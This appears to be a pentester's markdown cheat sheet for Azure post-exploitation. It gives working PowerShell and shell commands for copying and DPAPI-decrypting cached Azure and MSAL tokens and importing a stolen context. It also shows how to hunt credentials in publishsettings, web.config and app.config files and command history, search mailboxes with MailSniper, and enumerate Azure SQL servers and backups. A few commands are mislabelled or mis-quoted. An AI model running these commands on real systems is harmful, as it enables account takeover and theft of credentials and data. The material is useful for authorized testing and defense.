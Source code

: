 # Post exploitation
## Stealing Access tokens
- https://github.com/rvrsh3ll/TokenTactics
### User access tokens method 1
#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### User access tokens method 2
#### Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Visual Studio Code
- Azure Cloud Service Packages (.cspkg)
- Deployment files created by Visual Studio.
- Possible other Azure services integration (SQL, storage, etc.)
- Through cspkg zip files for creds/certs.
- Search Visual Studio Public Directory ```<cloud project directory>\bin\debug\publish```

### Publish settings in files
- Look for file ```.publishsettings```
- Can contain a Base64 encoded Management Certificate or cleartext credentials
- Save "ManagementCertificate" section into a new .pfx file
- Search the user's Downloads directory and VS projects.

### Storage explorers
- Windows Credential Manager stores these credentials.
- Azure Storage Explorer for example has a built-in “Developer Tools” function that you can use to set breakpoints while loading the credentials allowing you to view them while unencrypted.

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog
  
### Command history
- Look through command history
- ```~/.bash_history`` or ```%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
```

## Data harvesting
### Email
-• https://github.com/dafthack/MailSniper

#### Search through mailboxes
- From the person itself
```
Invoke-SelfSearch -Mailbox <MAIL>
```

#### Search for open mailboxes
```
Invoke-OpenInboxFinder
```

### Azure SQL
- Azure Transparent Data Encryption (TDE) is enabled by default
- Encrypts data at rest to prevent offline attacks (unless you export it…)
- Azure SQL servers get a DNS name at <ServerName>.database.windows.net
- Can run SQL queries in portal
- Azure SQL BACPAC backup files are not encrypted… even when Transparent Data Encryption is enabled
  - Can restore BACPAC database backup to another Azure SQL Server
  - Search for bacpac’s on disk and in blob storage then restore in another Azure account to analyze

#### List SQL servers
```
Get-AzSQLServer
```

#### List databases
```
Get-AzSqlDatabase -ServerName <Server Name> -ResourceGroupName <Resource Group Name>
```

#### Check allow list to database
```
Get-AzSqlServerFirewallRule –ServerName <ServerName> -ResourceGroupName <ResourceGroupName>
```
  
#### List out SQL server AD Admins
```
Get-AzSqlServerActiveDirectoryAdminstrator -ServerName <ServerName> -ResourceGroupName <ResourceGroupName>
```
  
#### Get BACPAC backup file of database
```
Get-AzSqlDatabaseTransparentDataEncryption -ServerName <ServerName> -DatabaseName <DatabaseName> -ResourceGroupName <ResourceGroupName>
```
